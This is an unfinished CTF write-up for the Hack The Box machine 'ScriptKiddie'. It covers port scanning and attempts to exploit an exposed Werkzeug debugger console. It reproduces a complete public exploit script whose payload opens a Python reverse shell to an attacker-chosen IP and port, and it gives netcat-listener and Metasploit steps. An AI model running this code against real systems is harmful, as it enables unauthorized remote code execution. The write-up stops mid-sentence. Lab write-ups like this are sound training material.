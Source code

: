 ```yaml
---
title: "ScriptKiddie"
author: "Me"
date: "March 18, 2021"
output: html_document
---
```


# ScriptKiddie

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (4.1/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_sk_desc.png){: height="250px" width = "280px"}
</div>

**Ports/services exploited:** 5000/http
**Tools:** \\
**Techniques:** \\
**Keywords:** werkzeug\\


## 1. Port scanning
{:style="color:DarkRed; font-size: 170%;"}

As usual, let's perform a nmap scan with the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan.

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_sk_nmap.png)
</div>

There's only SSH and a web server running, let's have a look at this latter.

## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

We browse to 10.10.10.226:5000 and find the following page:

<div class="img_container">
![web site]({{https://jsom1.github.io/}}/_images/htb_sk_site.png)
</div>

While will try its functionnalities, we start dirbuster in the background:

````
sudo dirb http://10.10.10.226:5000 -r
`````
We see the web service is "Werkzeug". From the internet, it is not a web server like Apache or nginx for example, but a **WSGI** utility framework for python. In a nutshell, it simplifies the handling of HTTP connections with a python application and also provides a debugger that permits to execute code from within the browser. The documentation warns to **not use the debugger on anything in production since it allows to execute python code remotely**. However, it seems that this warning is often ignored. We can search for systems that have the debugger enabled by causing an exception.\\
It's also mentionned that Werkzeug requires an actual error to trigger the console. The reason for that is that it uses a secret key generated when the application starts and is only exposed in the debugger page...\\
Because the machine is called ScriptKiddie, there's probably an existing exploit for that vulnerability. Let's search for it in the tool (it's the third tool on the page si it's not in the image above):

<div class="img_container">
![try tool]({{https://jsom1.github.io/}}/_images/htb_sk_tool.png)
</div>

It indeed returns two exploits. Since *dirb* didn't find anything, we will have a deeper look at those exploits. There are two of them, the first one is a python exploit while the latter is a ruby script that is part of the Metasploit framework. Metasploit's multi/handler often provides more stable revershe shells, but let's try the python one first. We can see its content with *cat /usr/share/exploitdb/exploits/multiple/remote/43905.py*, which is the following:

````
#!/usr/bin/env python
import requests
import sys
import re
import urllib

# usage : python exploit.py 192.168.56.101 5000 192.168.56.102 4422 

if len(sys.argv) != 5:
    print "USAGE: python %s <ip> <port> <your ip> <netcat port>" % (sys.argv[0])
    sys.exit(-1)


response = requests.get('http://%s:%s/console' % (sys.argv[1],sys.argv[2]))

if "Werkzeug " not in response.text:
    print "[-] Debug is not enabled"
    sys.exit(-1)

# since the application or debugger about python using python for reverse connect 
cmd = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);''' % (sys.argv[3],sys.argv[4])

__debugger__ = 'yes'

frm = '0'

response = requests.get('http://%s:%s/console' % (sys.argv[1],sys.argv[2]))

secret = re.findall("[0-9a-zA-Z]{20}",response.text)

if len(secret) != 1:
    print "[-] Impossible to get SECRET"
    sys.exit(-1)
else:
    secret = secret[0]
    print "[+] SECRET is: "+str(secret)

# shell
print "[+] Sending reverse shell to %s:%s, please  use netcat listening in %s:%s" % (sys.argv[1],sys.argv[2],sys.argv[3],sys.argv[4])

raw_input("PRESS ENTER TO EXPLOIT")

data = {
        '__debugger__' : __debugger__,
        'cmd' : str(cmd),
        'frm' : frm,
        's' : secret
        }


response = requests.get("http://%s:%s/console" % (sys.argv[1],sys.argv[2]), params=data,headers=response.headers)

print "[+] response from server"
print "status code: " + str(response.status_code)
print "response: "+ str(response.text)
`````
This script seems to be honest and easy to use. We see a reference to the debugger mentionned earlier. It will ask us to setup a netcat listener at some point. Let's just try it. I fist copy the script on my desktop with *cp /usr/share/exploitdb/exploits/multiple/remote/43905.py .*. We then use it with the syntax *python exploit.pty target_IP target_port my_IP netcat_port*. I'll set up the listener on port 4444 with the command *sudo nc -nlvp 4444*. We get our ip with *sudo ifconfig tun0*. We can then try the script:

<div class="img_container">
![exploit fail]({{https://jsom1.github.io/}}/_images/htb_sk_fail.png)
</div>

This error is returned if "Werkzeug " is not in the response of the GET request "GET http://10.10.10.226:5000/console". Obviously this exploit won't work if the debugger isn't enabled... Let's still analyze the request in details... We can use Burp or Wireshark to see it. I'll use Wireshark this time. We just have to capture traffic on the tun0 interface and try the previous command once again. We then see the three-ways handshake and the GET request among all the packets:

<div class="img_container">
![wireshark packets]({{https://jsom1.github.io/}}/_images/htb_sk_ws1.png)
</div>

We an right click on this packet and select *Follow* -> *TCP stream*. We then see the response of the server:

<div class="img_container">
![TCP stream]({{https://jsom1.github.io/}}/_images/htb_sk_ws2.png)
</div>

Unsurprisingly, we see the file *console* was not found... The console is supposed to be triggered by an erorr, but there is no such thing in the exploit... Let's try the simplest things first and have a look at the Metasploit exploit. Maybe this one will work? We start Metasploit with *sudo msfconsole -q* (-q for quiet), and then *search werkzeug*. We *use* it and *set* the required options:

<div class="img_container">
![Metasploit fail]({{https://jsom1.github.io/}}/_images/htb_sk_metasploit.png)
</div>

The script also fails but with a different error. Looking at the script (*cat /usr/share/exploitdb/exploits/python/remote/37814.rb*), we see it could be for the same reason. In the *target* options when setting up the exploit, there is only one available: "werkzeug 0.10 and older". We saw on nmap that the target version is 0.16.1, so maybe this is why it's not working and we might be on the wrong way. At this point I started a full TCP scan as well as a top 1000 ports UDP scan to make sure there isn't another way in. However it didn't reveal anything.\\

Let's review what we know so far. We know we have to cause an error that should trigger the console. Let's get back to the tool and try to encode a payload for the target:

<div class="img_container">
![Payload]({{https://jsom1.github.io/}}/_images/htb_sk_payload.png)
</div>

It doesn't work. I naively try to browse to 10.10.10.226:5000/console to see if the error somehow spawned it, but it wasn't the case. It's weird because the python script 


From the description, we can imagine it uses *msfvenom* under the hood to encode the payload. Let's try to add a template file. I tried to add a random script and got the error "linux requires a elf ext template file*. So let's


<ins>**My thoughts**</ins>



